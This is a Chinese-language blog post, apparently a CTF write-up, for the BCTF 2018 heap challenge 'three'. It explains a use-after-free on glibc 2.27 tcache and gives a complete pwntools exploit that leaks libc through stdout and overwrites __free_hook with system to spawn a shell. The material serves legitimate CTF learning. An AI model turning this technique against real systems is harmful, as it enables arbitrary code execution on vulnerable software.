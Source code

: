 ```yaml
---
title: 'BCTF2018:three'
date: 2018-12-05 16:26:08
tags: pwn fengshui
---
```

fengshui思路很重要...
<!--more-->
# strat
[附件][1]
简洁的一道题..主要考利用...咸鱼的我调了一个晚上加上办个下午没调出来
(后来反证自己走进了死胡同..)
最后改变风水思路...

# Analysis
* 主要功能有add,free,edit
* 限制是最多3个chunk可以被执行操作
* 可以选择清除不清除`array`上的指针
```python
➜  three checksec three 
[*] '/home/n132/Desktop/three/three'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled

```
用的libc是2.27有tcache
漏洞点是uaf
# 利用
#也不太好讲..主要自己调一遍坑都跳一遍就差不多有点思路了

* 利用uaf控制tcache改写`stdout`#具体为啥在babytecache那篇博客中写过
* 继而改写free_hook为system
* free /bin/sh

fengshui:
```
* 一开始我傻逼的地尝试了控制0x70结尾的地方...做了半天做不出来
* 因为在改写完`stdout`后将会失去一个可以操作的指针...free不掉
* 两个指针要实现tcache atk 就要满足两者存在over lap 才可以改掉size
* 显然0x70不如0x50来的灵活...当时没用0x50是因为0x50的那个指针也是不能free的..
```

* 利用uaf控制`0x50`结尾的地址（目的是方便改size）
* 改`0x60`的size为`0x91`
* free 满tcache 获得一个`unsortedbin`
* `0x50`的tcache改到`0x91`上
* `partial write`指向`stdout`
* 改`stdout`去泄露libc
* free 0x60通过0x50改size和fd指针到`__free_hook`为`system`
* edit 2为`/bin/sh`
* free 2



# exp
```python
from pwn import *
def cmd(c):
	p.sendlineafter("choice:",str(c))
def add(c="\n"):
	cmd(1)
	p.sendafter("content:",c)
def edit(idx,data):
	cmd(2)
	p.sendlineafter("idx:",str(idx))
	p.sendafter("content:",data)
def free(idx,mode=0):
	cmd(3)
	p.sendlineafter("idx:",str(idx))
	if (mode==0):
		p.sendlineafter("(y/n):",'n')
	else:
		p.sendlineafter("(y/n):",'y')


p=process("./three",env={'LD_PRELOAD':'./libc.so.6'})
libc=ELF("./libc.so.6")
context.log_level='debug'
#init
for x in range(3):
	add(p64(0x21)*8);
free(2,1)
free(1,1)
free(0,1)
#
add()
add()
free(1,1)
free(0)
edit(0,'\x50')
add()

add(p64(0)+p64(0x91))

free(1,1)

for x in range(6):
	free(0)
edit(2,p64(0)+p64(0x51))
free(0)
edit(2,p64(0)+p64(0x91))
free(0,1)

edit(2,p64(0)+p64(0x51)+"\x60\x07\xdd")
add()
add(p64(0xfbad1800)+p64(0)*3+'\x00')

p.read(8)
base=u64(p.read(8))-(0x7ffff7dd18b0-0x00007ffff79e4000)
log.warning(hex(base))
libc.address=base
free(0,1)
edit(2,p64(0)+p64(0x41)+p64(libc.symbols['__free_hook']))
add()
free(0,1)
add(p64(libc.symbols['system']))
edit(2,"/bin/sh\x00")
cmd(3)
p.sendlineafter("idx:",'2')
p.sendline("clear")
p.interactive("nier>>>")
```


[1]:https://github.com/n132/Watermalon/tree/master/Bctf_2018/three